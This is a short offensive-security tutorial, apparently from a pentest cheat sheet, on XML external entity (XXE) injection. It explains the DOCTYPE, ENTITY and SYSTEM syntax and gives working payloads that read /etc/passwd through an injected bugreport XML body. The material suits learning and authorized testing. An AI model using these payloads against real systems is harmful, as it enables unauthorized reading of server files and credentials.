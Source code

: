 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example

IF you are able to change the XML code in the POST, we might be able to leverage an XXE vulnerability. Lets look at a simple XML code block like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can add some code to the code block. But first we need to understand some basic syntax. `!DOCTYPE` - declares a set of rules about what can appear in the xml. `!ENTITY` - is similar to defining a variable that you can call on later in the file. `SYSTEM` - tells the XML parser to retrieve the entity from an external source allowing for XXE. Lastly, we can input the variable we defined earlier with `!ENTITY` to a textfield. It would look something like this. `<text>&variable;<\text>`. Using this knowledge we can change our XML code block to look something like this.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver and output the contents of the file where `<reward>` should go.

### Basic File Read

Basic file read looks like this.

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<any>
<title>test</title>
  <textoutput>&file;</textoutput>
</any>
```
